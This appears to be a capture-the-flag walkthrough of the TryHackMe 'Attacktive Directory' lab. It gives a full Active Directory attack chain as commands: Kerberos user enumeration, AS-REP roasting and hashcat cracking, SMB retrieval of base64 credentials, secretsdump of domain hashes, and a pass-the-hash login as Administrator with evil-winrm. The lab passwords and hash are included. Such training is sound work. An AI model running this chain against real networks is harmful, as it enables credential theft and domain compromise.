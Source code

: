 # Attacktive Directory

**Room Link:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)



## Walkthrough

### Setup

#### Installing Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#### Installing Bloodhound and Neo4j

```
apt install bloodhound neo4j
```

#### Installing kerbrute

```
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
make all
```

### username and password custom lists for this machine

```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

### Welcome to Attacktive Directory

#### **Initial Scan**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (3).png" alt=""><figcaption></figcaption></figure>

#### Scan all ports

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (6) (2).png" alt=""><figcaption></figcaption></figure>

### netbios-ssn port 139 & microsoft-ds port 445

```
enum4linux $VICTIM
```

The NetBIOS-Domain Name of the machine

<figure><img src="../../.gitbook/assets/image (4) (6) (1).png" alt=""><figcaption></figcaption></figure>

### Enumerating Users via Kerberos port 88

```
kerbrute/dist/kerbrute_linux_386 userenum --dc=$VICTIM -d=spookysec.local. userlist.txt
```

<figure><img src="../../.gitbook/assets/image (27) (3).png" alt=""><figcaption></figcaption></figure>

### Abusing Kerberos

**validusers.txt**

```
james
svc-admin
robin
darkstar
administrator
backup
paradox
```

svc-admin allows us to get a ticket without a password. The hash type is Kerberos 5 etype 23 AS-REP.

```
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip $VICTIM spookysec.local/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

Cracking the hash we can see the password is management2005

```
hashcat -m18200 hash.txt passwordlist.txt
hashcat -m18200 hash.txt passwordlist.txt --show
```

<figure><img src="../../.gitbook/assets/image (28) (4) (1).png" alt=""><figcaption></figcaption></figure>

### Back to the Basics

### netbios-ssn port 139 & microsoft-ds port 445

```
smbclient -L $VICTIM -U "svc-admin"
Enter WORKGROUP\svc-admin's password: management2005
```

<figure><img src="../../.gitbook/assets/image (7) (2) (2).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\$VICTIM\\backup -U "svc-admin"
smb: \> dir
smb: \> get backup_credentials.txt 
```

<figure><img src="../../.gitbook/assets/image (3) (8) (1).png" alt=""><figcaption></figcaption></figure>

Its a base64 encoded username and password. backup@spookysec.local:backup2517860

```
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Elevating Privileges within the Domain - **WinRM** port5985

```
python3 /usr/local/bin/secretsdump.py  spookysec.local/backup:backup2517860@$VICTIM > allhashes.txt
cat allhashes.txt | awk -F : '{print $1 ":" $3}' | sort | uniq
```



### Flag Submission PaneLogin as Administrator&#x20;

```
evil-winrm -i $VICTIM -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
